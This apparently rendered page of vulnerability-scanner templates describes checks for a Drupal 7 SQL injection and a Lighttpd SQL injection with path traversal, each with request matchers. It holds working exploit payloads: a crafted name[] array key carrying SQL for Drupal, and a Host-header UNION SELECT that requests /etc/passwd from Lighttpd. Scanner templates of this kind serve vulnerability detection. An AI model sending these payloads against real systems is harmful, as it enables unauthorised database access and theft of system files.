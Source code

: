 **Type - word**
- part - body
- words
    1. "ok":true
    2. "data"
    3. "repolink":"
- condition - and

**Type - status**
- status
    1. 200

---
# Drupal SQL Injection
## Description
- The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing specially crafted keys.
- severity - high
- tags - edb,cve,cve2014,drupal,sqli
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/?q=node&destination=node
  - pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0x23,concat(1,md5({{num}})),1)%23]=bob&name[0]=a
### Matchers

**Type - word**
- words
    1. PDOException
    2. {{md5({{num}})}}
- condition - and
- part - body

**Type - status**
- status
    1. 500

---
# Lighttpd 1.4.34 SQL Injection and Path Traversal
## Description
- A SQL injection vulnerability in mod_mysql_vhost.c in lighttpd before 1.4.35 allows remote attackers to execute arbitrary SQL commands via the host name (related to request_check_hostname).
- severity - critical
- tags - lighttpd,injection,seclists,cve,cve2014,sqli
## Requests
### Step - 1
```
GET /etc/passwd HTTP/1.1
Host: [::1]' UNION SELECT '/


```